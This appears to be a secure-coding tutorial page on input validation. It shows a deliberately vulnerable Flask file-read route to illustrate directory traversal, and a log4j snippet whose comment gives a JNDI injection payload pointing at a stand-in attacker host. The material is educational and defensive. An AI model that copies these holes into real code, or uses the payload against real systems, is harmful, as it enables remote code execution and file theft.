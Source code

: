 ```yaml
---
title: 1.3 General Rule Of Thumb
author: Riccardo ten Cate
date: 03-12-2024
category: Jekyll
layout: post
---
```


The general rule of thumb in input validation is to avoid giving an attacker control over the object that is passed into a function, parser, or operator. This means that user input should not be directly passed into a function, but rather should be validated and sanitized first. For example, in the case of a file operator, an attacker could inject malicious data and cause a directory traversal attack.

So, what exactly does that mean?

### example-1

```python
@app.route("/home", methods=['POST'])
def home():
    filename = request.form['filename']
    if filename == "":
        filename = "default.txt"
    f = open(filename, 'r')
    read = f.read()
    return render_template("index.html", read=read)
```

`   `In this example, we observe that when the so-called "source"  
`filename = request.form['filename']`  
  
Used in the following _**sink**_ or in this case a **_File operator_**  
`f = open(filename,'r')`  
  
This will lead to a security vulnerability called Local **_file inclusion_**|| **_Directory traversal_** attack. This attack was preventable by applying the secure design principles mentioned above. We will dig further into this example and how to mitigate it in the chapter that covers the _white listing_ mitigation strategy.

### example-2

Even though that at the time of writing the code log4j did not directly impose a great security risk, a lot of trouble could have been prevented by not directly writing user-supplied input directly into the **_l__**og**.error()_** function.

```java
import org.apache.log4j.Logger;
import java.io.*;
import java.util.*;

public class log4jExample{
    /* Get actual class name to be printed on */
    static Logger log = Logger.getLogger(log4jExample.class.getName());

    public static void main(String[] args){
        // input could look like:
        // ${jndi:rmi://hackerbox.com:1337/exploit}
        log.error(USER_INPUT_HERE);
    }
}
```

The same principles as mentioned in the **_directory / path traversal_** example are applied to this example as well. Don't give an attacker full control over an _**object**_ that goes into a _**sink**_. More in-depth information about the **_Log4J_** Vulnerability can be found in the _**Sources**_ Section


In conclusion, input validation is an essential aspect of software security and should be given the attention it deserves. By using the appropriate validation strategies and following best practices, software systems can be made more secure and better protected against malicious attacks.